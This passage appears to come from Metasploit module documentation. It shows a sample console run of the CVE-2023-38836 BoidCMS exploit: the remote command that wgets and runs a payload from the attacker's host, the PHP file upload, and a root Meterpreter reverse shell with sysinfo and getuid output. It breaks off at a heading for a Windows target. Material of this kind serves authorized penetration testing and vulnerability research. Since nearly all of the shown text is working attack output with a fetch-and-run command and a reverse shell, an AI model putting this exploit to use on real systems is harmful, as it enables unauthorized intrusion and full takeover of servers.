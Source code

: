 ```


Exploit target:

   Id  Name
   --  ----
   0   nix Command



View the full module info with the info, or info -d command.

msf exploit(multi/http/cve_2023_38836_boidcms) > run

[*] Command to run on remote host: wget -qO /tmp/oEsnOArk http://10.5.135.201:8080/v3vZxR3P-stuKWjUe6pCeA; chmod +x /tmp/oEsnOArk; /tmp/oEsnOArk &
[*] Fetch Handler listening on 10.5.135.201:8080
[*] HTTP server started
[*] Adding resource /v3vZxR3P-stuKWjUe6pCeA
[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Detected BoidCMS, but the version is unknown.
[*] Getting Token
[*] Logging into CMS
[*] Uploading PHP file eI1lHLx.php
[*] launching Payload
[*] Client 10.5.134.129 requested /v3vZxR3P-stuKWjUe6pCeA
[*] Sending payload to 10.5.134.129 (Wget/1.21.2)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 10.5.134.129
[+] Deleted eI1lHLx.php
[*] Meterpreter session 1 opened (10.5.135.201:4444 -> 10.5.134.129:49168) at 2024-02-16 16:32:33 -0600

meterpreter > sysinfo
Computer     : 10.5.134.129
OS           : Ubuntu 22.04 (Linux 6.5.0-17-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > 



```


### BoidCMS on Windows Server 2019x64
